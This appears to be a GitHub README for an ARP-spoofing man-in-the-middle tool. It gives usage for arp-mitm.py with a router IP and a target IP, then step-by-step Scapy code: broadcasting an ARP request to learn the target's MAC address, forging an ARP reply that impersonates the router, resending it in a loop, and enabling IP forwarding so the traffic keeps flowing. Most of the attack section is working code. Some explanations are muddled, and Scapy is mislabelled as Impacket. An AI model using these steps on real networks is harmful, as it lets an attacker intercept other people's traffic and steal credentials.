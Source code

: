 # ArpSpoof-MITM-Framework

  ## Script usage --> (attack on a network with 3 machines: router, attacker, target):

                python3 arp-mitm.py {ROUTERIP} {TARGETIP}

        [-] Attacker sends ARP request to broadcast (everyone on LAN) in order to receive a response from someone who knows
            where the target machine is located 
            
            --> This request contains the broadcast address and the
                IP address of the target machine 
            
            --> The request essentially asks everyone on the network (through the broadcast address) who has {targetIP}? 
                Hopefully a machine on the network who knows the location (MAC address of target machine) will respond with the 
                information we are looking for --> the target machines MAC address

        [-] Now that we have the MAC address of the target machine we can use it to craft a malicious packet that will tell
            the target machine that our MAC address is the same as the routers MAC address
            
            --> This will cause every outgoing packets from the target machine will be sent to both the router and the target
                machine
    
  ## Some useful Scapy commands:

        [-] ls(ARP) --> will list all fields required by an ARP packet
        
        [-] important fields: op, hwsrc,psrc, hwdst, pdst
        
        [-] packet = ARP(pdst='<TARGET IPADDR>') --> set pdst (destination address) to TARGETS IPADDR
        
        [-] packet.show --> show the current state of the packet being crafted
        
        [-] packet.op = 1 --> sending request --> "who has ..."
        
        [-] packet.op = 2 --> sending response

  ## Methodology: 

        [-] Send arp request through the broadcast MAC address, every machine on the LAN will receive 
            request and possibly send the reply
        
        [-] Impacket (manually):
            
                Getting mac address of target machine w/ spoofed ARP request :

                [-] broadcast = Ether(dst='ff:ff:ff:ff:ff:ff') --> Broadcast Address

                [-] arp_layer = ARP(pdst='{TARGETIP}')

                [-] entire_packet = broadcast/arp_layer --> combines arp_layer and broadcast layer into packet

                [-] answer = srp(entire_packet, timeout=2, verbose=True)[0] --> sending request to broadcast

                [-] print(answer) --> will show request and response if any received

                [-] print(answer[0])

                [-] target_mac_address = answer[0][1].hwsrc --> get mac address of target                                                                                                                                                                                                                              
                [-] print(target_mac_address)

  ### Craftinfg Malicious packet:

            [-] We are essentially going to craft a packet that will tell the target machine that
                    the attacker machine is a router, so it sends all of its packets to the attacker machine
                
            [-] packet = ARP(op=2, hwdst=target_mac_address, pdst='192.168.0.131', psrc='192.168.0.1')
                    
                    --> psrc is address of machine we want to impersonate (router)
                    --> run `netstat -nr` in terminal to find addr of router on your network (gateway)
                
            [-] packet.show() will show the contents of our malicious packet
                
            [-] send(packet, verbose=False) --> sends malicious packet to spoof targets ARP table
            
  ### Arp-tables on target machine:

            [-] You can run the command `arp -a` on the target machine before sending the malicious packet, 
                    and again after sending the malicious packet to confirm if we successfully spoofed the arp
                    tables on the target machine

            [!] Script should be run in a while loop to continuosly spoof the targets arp tables since the target machine will also still 
                send the same ARP requests we are sending still

            [!] If the target machine is unable to access the internet after it has been spoofed then you may need to run this command on your 
                attacker machine to forward the packets --> echo 1 >> /proc/sys/net/ipv4/ip_forward 
